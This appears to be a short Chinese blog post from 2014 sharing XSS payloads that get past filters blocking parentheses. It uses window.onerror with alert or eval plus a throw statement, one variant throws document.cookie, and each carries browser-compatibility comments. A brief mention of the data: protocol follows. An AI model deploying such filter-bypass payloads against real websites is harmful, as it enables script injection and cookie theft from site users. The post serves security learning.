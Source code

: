 ﻿title: XSS绕过()检查
date: 2014-12-17 16:09:34
tags: xss
categories: 安全
---

前两天刚刚提交了一个xss漏洞注册了个乌云帐号，激动了好几个小时。感觉终于入了门了，这几个月的书没白看。
对于那些过滤了()的情况，可以用下面的payload来试一下，亲测最新chrome firefox IE：
``` html
<!-- IE work -->
<!-- chrome unCaught -->
<!-- firefox unCauht exception -->
<a onmouseover="javascript:window.onerror=alert;throw document.cookie">xxx</a>
<!-- <img src=x onerror="javascript:window.onerror=alert;throw 1"> -->

<!-- chrome work -->
<!-- IE not work -->
<!-- firefox not work -->
<a onmouseover=javascript:window.onerror=eval;throw'=alert\x28"xss"\x29';>xxxxx</a>

<!-- chrome not work -->
<!-- IE work -->
<!-- firefox not work -->
<a onmouseover=javascript:window.onerror=eval;throw'alert\x28"xss"\x29';>xxxxxxx</a>
```

还有一种是如果能够控制URL属性内容，可以使用data协议来绕过()的检查。
